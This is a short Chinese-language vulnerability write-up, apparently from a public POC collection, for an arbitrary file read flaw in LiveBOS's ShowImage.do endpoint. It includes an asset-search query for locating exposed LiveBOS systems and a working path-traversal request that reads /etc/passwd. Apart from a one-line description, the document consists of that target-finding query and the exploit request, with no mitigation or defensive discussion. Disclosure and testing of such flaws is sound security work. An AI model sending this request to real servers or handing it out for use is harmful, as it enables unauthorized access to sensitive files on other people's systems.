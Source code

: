# LiveBOS ShowImage.do 任意文件读取漏洞

## 漏洞描述

LiveBOS ShowImage.do 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

LiveBOS

## 网络测绘

```
app="LiveBOS-框架"
```

## 漏洞复现

登陆页面

![image-20230828111822866](images/image-20230828111822866.png)

验证POC

```
/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd
```

![image-20230828111838582](images/image-20230828111838582.png)
